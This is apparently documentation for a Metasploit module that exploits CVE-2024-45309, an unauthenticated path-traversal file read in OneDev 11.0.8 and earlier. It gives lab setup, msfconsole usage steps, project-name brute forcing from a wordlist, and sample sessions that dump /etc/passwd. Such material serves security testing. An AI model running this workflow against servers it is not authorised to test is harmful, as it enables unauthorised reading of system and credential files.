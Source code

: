 ## Vulnerable Application

OneDev is a Git Server with CI/CD, kanban, and packages.
This module exploits an unauthenticated arbitrary file read vulnerability (CVE-2024-45309), which affects OneDev versions <= 11.0.8.
This vulnerability arises due to the lack of user-input sanitization of path traversal sequences `..` in the `ProjectBlobPage.java` file.

To exploit this vulnerability, a valid OneDev project name is required. If anonymous access is enabled on the OneDev server, any visitor
can view existing projects without authentication.
However, when anonymous access is disabled, an attacker who lacks prior knowledge of existing project names can use a brute-force approach.
By providing a user-supplied wordlist, the module may be able to guess a valid project name and subsequently exploit the vulnerability.

## Installation

OneDev provides docker images for a quick setup process.
A vulnerable version (`v11.0.8`) can be found [here](https://hub.docker.com/r/1dev/server/tags?name=11.0.8).

Installation instructions can be found [here](https://docs.onedev.io/).

## Verification Steps

1. Install the OneDev application
2. Start msfconsole
3. Do: `use auxiliary/gather/onedev_arbitrary_file_read`
4. Set the `RHOSTS` and `RPORT` options as necessary
5. Set the `TARGETFILE` option with the absolute path of the target file to read

If a valid project name is known:

6. Set the `PROJECT_NAME` option with the known project name
7. Do: `run`
8. If the file exists, the contents will be displayed to the user

If there is no information about existing projects:

6. Set the `PROJECT_NAMES_FILE` option with the absolute path of a wordlist that contains multiple possible values for a valid project name
7. Do: `run`
8. If a valid project name is found, the target file contents will be displayed to the user

## Options

### PROJECT_NAME
A valid OneDev project name is required to exploit the vulnerability. If anonymous access is enabled on the OneDev server,
any visitor can see the existing projects, and collect a valid project name. On the other hand, if anonymous access is disabled,
the user needs to have previous knowledge of a valid project name or use the `PROJECT_NAMES_FILE` option to find one through brute force.

### PROJECT_NAMES_FILE
Absolute path of a wordlist containing multiple possible values for valid project names. Once this option is set,
the module will verify whether a given project exists for each word.


### TARGETFILE
Absolute file path of the target file to be retrieved from the OneDev server. Set as `/etc/passwd` by default.

### STORE_LOOT
If set as `true`, the target file contents will be stored as loot. Set as `false` by default.


## Scenarios

### Example: Known project name or anonymous access enabled on OneDev 11.0.8

```
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAME myproject
PROJECT_NAME => myproject
msf6 auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```

### Example: Unknown projects with anonymous access disabled on OneDev 11.0.8
```
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAMES_FILE /home/server/wordlist.txt
PROJECT_NAMES_FILE => /home/server/wordlist.txt
msf6 auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[*] Brute forcing valid project name ...
[+] 192.168.1.10:6610 - Found valid OneDev project name: myproject
[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```
